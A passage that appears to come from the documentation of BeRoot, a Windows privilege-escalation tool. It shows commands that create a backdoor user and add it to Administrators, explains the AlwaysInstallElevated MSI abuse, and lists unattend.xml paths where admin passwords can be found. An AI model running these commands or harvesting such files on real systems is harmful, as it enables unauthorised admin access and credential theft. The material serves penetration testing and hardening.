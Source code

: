 #### How to exploit: 

BeRoot realize this exploitation, change the "-c" option to execute custom command on the vulnerable host.  
  
beRoot.exe -c "net user Zapata LaLuchaSigue /add"  
beRoot.exe -c "net localgroup Administrators Zapata /add"  

### AlwaysInstallElevated registry key

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. To allow it, two registry entries have to be set to 1:  
  

- HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
- HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

#### How to exploit: 

create a malicious msi binary and execute it.  
  

### Unattended Install files

This file contains all the configuration settings that were set during the installation process, some of which can include the configuration of local accounts including Administrator accounts. These files are available on these following path:  
  
C:\Windows\Panther\Unattend.xml  
C:\Windows\Panther\Unattended.xml  
C:\Windows\Panther\Unattend\Unattended.xml  
C:\Windows\Panther\Unattend\Unattend.xml  
C:\Windows\System32\Sysprep\unattend.xml   
C:\Windows\System32\Sysprep\Panther\unattend.xml  
  
  

#### How to exploit: 

Open the unattend.xml file to check if passwords are present on it. Should looks like:  
  
<UserAccounts>  
    <LocalAccounts>  
        <LocalAccount>  
            <Password>  
                <Value>RmFrZVBhc3N3MHJk</Value>  
                <PlainText>false</PlainText>  
            </Password>  
            <Description>Local Administrator</Description>  
            <DisplayName>Administrator</DisplayName>  
            <Group>Administrators</Group>  
            <Name>Administrator</Name>  
        </LocalAccount>  
    </LocalAccounts>  
</UserAccounts>  
  